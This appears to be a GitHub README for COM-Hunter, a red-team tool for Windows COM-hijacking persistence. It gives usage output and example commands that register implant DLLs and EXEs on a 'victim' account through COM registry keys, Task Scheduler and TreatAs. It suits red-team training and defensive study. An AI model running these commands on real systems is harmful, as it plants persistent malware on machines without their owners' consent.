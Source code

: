 # COM-Hunter

COM Hijacking VOODOO

<p align="center">
  <img width="500" height="400" src="/Pictures/logo2.png"><br /><br />
  <img alt="GitHub License" src="https://img.shields.io/github/license/nickvourd/COM-Hunter?style=social&logo=GitHub&logoColor=purple">
  <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/nickvourd/COM-Hunter?logoColor=yellow"><br />
  <img alt="GitHub forks" src="https://img.shields.io/github/forks/nickvourd/COM-Hunter?logoColor=red">
  <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/nickvourd/COM-Hunter?logoColor=blue">
  <img alt="GitHub contributors" src="https://img.shields.io/github/contributors/nickvourd/COM-Hunter?style=social&logo=GitHub&logoColor=green">
</p>

## Description

COM-Hunter is a COM Hijacking persistnce tool written in C#.

![Static Badge](https://img.shields.io/badge/.NET-4.8-blue?style=flat&logoSize=auto)
![Static Badge](https://img.shields.io/badge/C-yellow?style=flat&logoSize=auto)
![Static Badge](https://img.shields.io/badge/Make-green?style=flat&logoSize=auto)
![Static Badge](https://img.shields.io/badge/Version-2.0%20-red?link=https%3A%2F%2Fgithub.com%2Fnickvourd%2FCOM-Hunter%2Freleases)

The following list explains the available modes:

- **Search Mode**: Searches for CLSIDs based on `LocalServer32`, `InprocServer32`, and registry hives `HKLM` and `HKCU`.
- **Classic Persist Mode**: Performs classic COM hijacking persistence using `LocalServer32` or `InprocServer32`.
- **Task Scheduler Mode**: Automatically establishes COM hijacking persistence via Task Scheduler using `LocalServer32` or `InprocServer32`.
- **TreatAs Mode**: Performs COM hijacking persistence via the TreatAs registry key and a fake (forwardable) CLSID using `LocalServer32` or `InprocServer32`.

> If you find any bugs, don’t hesitate to [report them](https://github.com/nickvourd/COM-Hunter/issues). Your feedback is valuable in improving the quality of this project!

## Disclaimer

The authors and contributors of this project are not liable for any illegal use of the tool. It is intended for educational purposes only. Users are responsible for ensuring lawful usage.

## Table of Contents

- [COM-Hunter](#com-hunter)
    - [Description](#description)
    - [Disclaimer](#disclaimer)
    - [Table of Contents](#table-of-contents)
    - [Acknowledgement](#acknowledgement)
    - [Usage](#usage)
    - [Examples](#examples)
    - [References](#references)

## Acknowledgement
 
This project created with :heart: by [@nickvourd](https://x.com/nickvourd) && [@S1ckB0y1337](https://x.com/S1ckB0y1337).

Special thanks to my friend [Marios Gyftos](https://www.linkedin.com/in/marios-gyftos-a6b62122/) for his invaluable assistance during the beta testing phase of this tool.

Inspired by the [RTO course](https://courses.zeropointsecurity.co.uk/courses/red-team-ops) from [@zeropointsecltd](https://x.com/zeropointsecltd).

## Usage

```
 ██████╗ ██████╗ ███╗   ███╗      ██╗  ██╗██╗   ██╗███╗   ██╗████████╗███████╗██████╗
██╔════╝██╔═══██╗████╗ ████║      ██║  ██║██║   ██║████╗  ██║╚══██╔══╝██╔════╝██╔══██╗
██║     ██║   ██║██╔████╔██║█████╗███████║██║   ██║██╔██╗ ██║   ██║   █████╗  ██████╔╝
██║     ██║   ██║██║╚██╔╝██║╚════╝██╔══██║██║   ██║██║╚██╗██║   ██║   ██╔══╝  ██╔══██╗
╚██████╗╚██████╔╝██║ ╚═╝ ██║      ██║  ██║╚██████╔╝██║ ╚████║   ██║   ███████╗██║  ██║
 ╚═════╝ ╚═════╝ ╚═╝     ╚═╝      ╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═══╝   ╚═╝   ╚══════╝╚═╝  ╚═╝

                                   Version: 2.0
                             @nickvourd && @S1ckB0y1337
                  ~ Inspired during the RTO course by @zeropointsecltd ~

Usage: COM-Hunter.exe <mode> <options>

[+] Available Modes:
    search             Search Mode
    persist            Classic Persist Mode
    tasksch            Task Scheduler Mode
    treatas            TreatAs Mode

[+] Search Mode:
Usage:  COM-Hunter.exe search <CLSID> <options>
    -a, --all                   Search DLL and EXE implementations in HKLM and HKCU
    -i, --inprocserver32        Search DLL implementations in HKLM and HKCU
    -l, --localserver32         Search EXE implementations in HKLM and HKCU
    -m, --machine               Search DLL and EXE implementations in HKLM
    -u, --user                  Search DLL and EXE implementations in HKCU

[+] Classic Persist Mode:
Usage:  COM-Hunter.exe persist <CLSID> <binary_path> <option>
    -i, --inprocserver32        Set DLL implementation
    -l, --localserver32         Set EXE implementation

[+] Task Scheduler Mode:
Usage:  COM-Hunter.exe tasksch <binary_path> <option>
    -i, --inprocserver32        Set DLL implementation
    -l, --localserver32         Set EXE implementation

[+] TreatAs Mode:
Usage:  COM-Hunter.exe treatas <CLSID> <fake_CLSID> <binary_path> <option>
    -i, --inprocserver32        Set DLL implementation
    -l, --localserver32         Set EXE implementation
```

## Examples

:information_source: Search DLL and EXE implementations in HKLM and HKCU:

```
.\COM-Hunter.exe search 01575CFE-9A55-4003-A5E1-F38D1EBDCBE1 -a
```

:information_source: Search EXE implementations in HKLM and HKCU:

```
.\COM-Hunter.exe search "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -l
```

:information_source: Advanced search EXE implementations in HKLM:

```
.\COM-Hunter.exe search "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -l --machine
```

:information_source: Search EXE and DLL implementations in HKCU:

```
.\COM-Hunter.exe search AB8902B4-09CA-4bb6-B78D-A8F59079A8D5 --user
```

:information_source: Perform classic persistence using DLL implementation:

```
.\COM-Hunter.exe persist AB8902B4-09CA-4bb6-B78D-A8F59079A8D5 C:\Users\victim\Desktop\implant.dll -i
```

:information_source: Perform classic persistence using EXE implementation:

```
.\COM-Hunter.exe persist "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" C:\Users\victim\Desktop\implant.exe --localserver32
```

:information_source: Perform persistence via Task Scheduler using DLL implementation:

```
.\COM-Hunter.exe tasksch C:\Users\victim\Desktop\implant.dll --inprocserver32
```

:information_source: Perform persistence via the TreatAs registry key and a fake (forwardable) CLSID using DLL implementation:

```
.\COM-Hunter.exe treatas AB8902B4-09CA-4bb6-B78D-A8F59079A8D5 "{00000012-1312-1997-2605-F38D1EBDCBE1}" C:\Users\victim\Desktop\implant.dll -i
```

## References

- [Persistence: “the continued or prolonged existence of something”: Part 2 – COM Hijacking by MDSec](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/)
- [Abusing the COM Registry Structure (Part 2): Hijacking & Loading Techniques by BOHOPS](https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/)
- [Userland Persistence with Scheduled Tasks and COM Handler Hijacking by Enigma0x3](https://enigma0x3.net/2016/05/25/userland-persistence-with-scheduled-tasks-and-com-handler-hijacking/)
- [COM Objects Hijacking by Virus Total](https://blog.virustotal.com/2024/03/com-objects-hijacking.html)
